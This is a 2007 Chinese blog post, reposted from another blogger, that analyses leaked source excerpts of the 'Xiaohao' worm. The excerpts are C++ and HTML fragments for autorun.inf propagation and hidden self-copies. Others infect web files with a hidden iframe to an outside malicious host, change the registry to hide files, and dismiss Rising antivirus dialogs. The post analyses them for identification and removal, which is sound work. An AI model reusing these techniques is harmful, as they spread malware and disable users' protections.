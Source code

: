 ```yaml
---
title: 小浩(X14o-H4o)病毒的简单源码分析(不完全研究)
description: 2007年08月27日16:44网上最近炒得火热的小浩(Xiaohao)这个木马，在很不经意的情况下，偷到了源代码，以我这个只会DOS下简单C语言的水平，分析了一下，这个木马实在的不高明，具体详细说来。首先，是WormBegin.cpp这个源码里的：1写入Autoruninf文件BOOLCWormBegin::GRDirctory(CStringPath)  //每个盘下加auto{charff[256];............
date: 2007-09-01 13:04:27
category: 技术文章
tags: ['病毒Virus', '源码']
post_id: 144
alias: 144
ViewNums: 6126
---
```


从[中国龙组](http://www.cnxlz.com/index.php?u=263)上的朋友[小汶's blog](http://www.lzwen.cn/)上看到的,我的C语言是自学的,而且只看了几天~,只能大概看出来每段是干什么的~,没小汶看的透~这里就直接把小汶的分析给搜刮过来了~

2007年08月27日 16:44网上最近炒得火热的 小浩(Xiaohao) 这个木马，在很不经意的情况下，偷到了源代码，以我这个只会 DOS 下简单 C 语言的水平，分析了一下，这个木马实在的不高明，具体详细说来。

首先，是 WormBegin.cpp 这个源码里的：
1 写入 Autorun.inf 文件
```txt
BOOL CWormBegin::GRDirctory(CString Path)    //每个盘下加auto
{
char ff[256];
GetModuleFileName(NULL,ff,sizeof(ff));
MyFileName=ff;
CString Data,AutoFile,PathName;
Data="[Autorun]
";
Data+="open=Xiaohao.exe
";
Data+="shellexecute=Xiaohao.exe
";
Data+="shell\Auto\command=Xiaohao.exe
";
AutoFile=Path;
AutoFile+="Autoruninf";
PathName=Path;
PathName+="Xiaohao.exe";
CStdioFile Auto(AutoFile,CFile::modeNoTruncate|CFile::modeWrite|CFile::modeCreate);
Auto.WriteString(Data);
Auto.Close();
if(!CopyFile(MyFileName,PathName,0))
{
     return FALSE;
}
else
{
     SetFileAttributes(PathName,FILE_ATTRIBUTE_HIDDEN);
     SetFileAttributes(AutoFile,FILE_ATTRIBUTE_HIDDEN);
     return TRUE;
}
}
/*作者QQ:********
Blog : [Http://Hi.baidu.com/](http://hi.baidu.com/)*****
不是我不想写 真正的PE感染..    哎. 可是我的结构化异常处理还没有学.. 郁闷啊 ! 只好写个垃圾virus
欢迎各位大牛. 来指导我    或者是交流
My age:15    - -!*/
```
评：这位仁兄不知道英文是几级的，目录的英文Directory都能打错。GRDirctory 这种东西可能只能是中国人才能理解吧，哦~~感染目录，中西结合，厉害厉害。

2 再看搜索感染的文件这段：
```
       if(FileName=="htm" || FileName=="html" || FileName=="asp" || FileName=="aspx" || FileName=="php" || FileName=="jsp")
       {
         Jilu(strPath);
         SetFileAttributes(strPath,FILE_ATTRIBUTE_NORMAL);
         GanRanWeb(strPath);
       }
         if(FileName=="exe")
       {
         if(Fuck.GetFileName()=="xiaohao.exe" || Fuck.GetFileName()=="XiaoHao.exe"
           ||Fuck.GetFileName()=="Xiaohao.exe")
           continue;
```
能感染的文件类型只有： htm html asp aspx php jsp 和 exe.

评：使用的方法也就是普通历遍模式，没有什么太大的特点。GanRanWeb这么函数可能也只有英文不好的人才能写得出来吧，老外肯定看不懂了。

3 记录被感染和被隐藏的文件
```
     if(!file.Open("c:\Jilu.txt",CFile::modeNoTruncate|CFile::modeWrite|CFile::modeCreate))
       return 1;
     file.SeekToEnd();
     file.WriteString(str1);
     file.Close();
     SetFileAttributes("c:\Jilu.txt",FILE_ATTRIBUTE_HIDDEN);
```
评：我在奇怪了，这个生成一个记录文件，果然作者是英文水平很差的人，LOG 都不会，哦，用拼音的 JILU，实在是厉害。不过，另外你生成一记录的话，我大概就可以根据这个记录，搞定所有被感染的文件了啊，连我去找的时间都不需要了。好玩~~

4 经典的 IFRAME 植入
```html
CString WriteBuf="
<iframe src=http://xiaohao.yona.biz/xiaohao.htm width=0 height=0></iframe>";
```
评：依然是利用MS的几个漏洞来进行感染，唉&hellip;&hellip;好老套。另外，这么明显的写出地址，估计很快就会和谐掉了吧。

我们接下继续看 XiaohaoDlg.cpp 这个吧：
1 感染盘符的搜索
```cpp
       if(ss=="A:\")
         continue;
       if(ss=="C:\")
       continue;    //跳过C盘
       if(ss=="d:\")
```
评：这个条件语句太生硬了吧，如果我盘符有B盘呢？？估计会进入死循环了吧。

2 修改注册表不让查看隐藏文件
```
char lujing[]="SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL";
HKEY hkey;
DWORD Data=0;
RegOpenKeyEx(HKEY_LOCAL_MACHINE,lujing,0,KEY_ALL_ACCESS,&hkey);
RegSetValueEx(hkey,"CheckedValue",0,REG_DWORD,(CONST BYTE*)&Data,4);
RegCloseKey(hkey);
}
```
评：这作者真的是不知道路径的英文是PATH啊~~用的方法是修改掉键值。

其它的研究：
1 CLSID方面：
```
RegCreateKey(HKEY_LOCAL_MACHINE,"SOFTWARE\Microsoft\Active Setup\Installed Components\{H9I12RB03-AB-B70-7-11d2-9CBD-0O00FS7AH6-9E2121BHJLK}"
```
评：和yksoft一致认定：这个人明显没有研究过COM编程，天下哪有这样的CLSID，活生生的硬插，CLSID格式、用字符都不对

2 对付瑞星的部分：
```
DWORD WINAPI FuckRising(
             LPVOID lpParameter     // thread data
)
{
while(TRUE)
{
     HWND hWindow;
     char lpClassName[20];
     do
     {
       hWindow = ::GetWindow(GetForegroundWindow(),GW_HWNDFIRST);
       ;;GetClassName(hWindow, lpClassName, 20);
       if(strncmp(lpClassName,"#32770",6)==0)
       {
         PostMessage(hWindow, WM_COMMAND,40027,0);
         PostMessage(hWindow, WM_COMMAND,2775,0);
         PostMessage(hWindow, WM_COMMAND,32776,0);
       }
       hWindow = ::GetWindow(hWindow, GW_HWNDNEXT);
     } while(hWindow == 0);

}
```
评：竟然这次英文没写错。哇，瑞星太厉害了，连他都知道写正确了。果然瑞星还是天下最容易被FXCK掉的杀软啊

3 写系统目录方面
```
GetModuleFileName(NULL,ff,255);
CopyFile(ff,"c:\windows\system32\exloroe.exe",NULL);
```
评：这位仁兄真的很强，连系统变量都不去识别，硬生生的往这里写。天啊，如果象我这机器里无WINDOWS目录怎么办，而且C盘没有系统，那会是什么情况发生？

4 修改WINDOWS窗口标题栏
```
::SetWindowText(hwnd,"已中毒 X14o-H4o's Virus");
```
评：经典的脑残体啊，我改了，改成了&ldquo;你的Windows已经被和谐&rdquo;
夜火评：这个不应该叫脑残体吧~,这个是黑客专用的写法,玩黑的朋友应该都知道是什么意思,就像我的xloong可以写成X1_0()||6,还不明白的朋友可以去google的黑客专用入口:http://www.google.com/intl/xx-hacker/  和普通的英文入口对比下就知道了~

这些写出来只是简单的研究一下罢了，好坏，我都不做进一步的评论了，点到为止。
大家可以根据我这些部分代码，研究一下这东西倒底怎么工作的，好在日后遇到此类玩意，怎么去解决它。

总体来说，这个程序是活活的将熊猫的DELPHI，仿作成VC的作品

